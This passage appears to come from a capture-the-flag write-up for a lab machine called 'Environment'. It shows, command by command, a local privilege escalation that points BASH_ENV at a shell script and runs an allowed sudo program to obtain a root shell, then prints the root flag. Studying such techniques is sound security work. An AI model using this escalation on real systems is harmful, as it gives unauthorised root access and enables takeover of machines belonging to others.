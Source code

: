 ```
#### Invoked non-interactively[](https://www.gnu.org/software/bash/manual/html_node/Bash-Startup-Files.html#Invoked-non_002dinteractively)

When Bash is started non-interactively, to run a shell script, for example, it looks for the variable `BASH_ENV` in the environment, expands its value if it appears there, and uses the expanded value as the name of a file to read and execute.
```

So, `BASH_ENV` points to a script that will be executed before the non-interactive program is run.

### 🧪 Exploitation

I create a simple `root.sh` file that will start a Bash shell.  `chmod` is used to make the file executable.

```
hish@environment:~$ echo -e '#!/bin/bash\n/bin/bash' >/dev/shm/root.sh
hish@environment:~$ cat /dev/shm/root.sh
#!/bin/bash
/bin/bash
hish@environment:~$ chmod +x /dev/shm/root.sh
```

The `BASH_ENV` environment variable is then pointed to the `root.sh` file. 

```
hish@environment:~$ export BASH_ENV=/dev/shm/root.sh
```

Running the program `/usr/bin/systeminfo` with `sudo` causes the script in `BASH_ENV` to run.  This script runs the program `/bin/bash` as the `root` user (due to `sudo`) and gives me a root shell.

```
hish@environment:~$ sudo /usr/bin/systeminfo
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
root@environment:/home/hish# id
uid=0(root) gid=0(root) groups=0(root)
```

### 💰 Post Exploitation

#### 🏆 root.txt

`root` is the holder of the `root.txt` flag.

```
root@environment:~# cat /root/root.txt
8c62b077a5eb1587235aa26582101e2d
```

Proof that a weak Environment can be fatal. 🌱💀

And `Environment has been Pwned!` 🎉
